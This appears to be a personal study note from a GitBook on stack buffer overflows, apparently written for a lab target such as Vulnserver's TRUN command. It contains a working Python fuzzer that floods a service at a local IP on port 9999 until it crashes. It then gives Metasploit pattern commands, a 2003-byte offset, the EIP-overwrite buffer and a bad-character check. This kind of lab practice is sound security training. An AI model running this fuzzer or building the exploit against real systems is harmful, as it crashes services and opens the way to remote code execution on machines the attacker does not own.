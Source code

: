 # Buf Overflow

![](../.gitbook/assets/image%20%282%29.png)

![](../.gitbook/assets/image%20%283%29.png)

![](../.gitbook/assets/image%20%284%29.png)



### FUZZING

```text
    #!/usr/bin/python
    
    import sys, socket 
    from time import sleep
    
    buffer = "A" * 100
    
    while True: 
        try: 
            payload = "TRUN /.:/" + buffer
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect(('192.168.1.35',9999))
            print ("[+] Sending the payload...\n" + str(len(buffer)))
            s.send((payload.encode()))
            s.close()
            sleep(1)
            buffer = buffer + "A"*100
        except:
            print ("The fuzzing crashed at %s bytes" % str(len(buffer)))
            sys.exit()
```

/usr/share/metasploit-framework/tools/exploit/pattern\_create.rb -l 3000  
/usr/share/metasploit-framework/tools/exploit/pattern\_offset.rb -l 3000 -q 386F4337   
where q is EIP value -&gt; we will get offset  
OFFSET = 2003  
buffer = "A" \* 2003 + "B" \* 4  
EIP will be overwritten with 424242.  
  
badchars  
buffer = "A" \* 2003 + "B" \* 4 + badchars  
find out of place chars







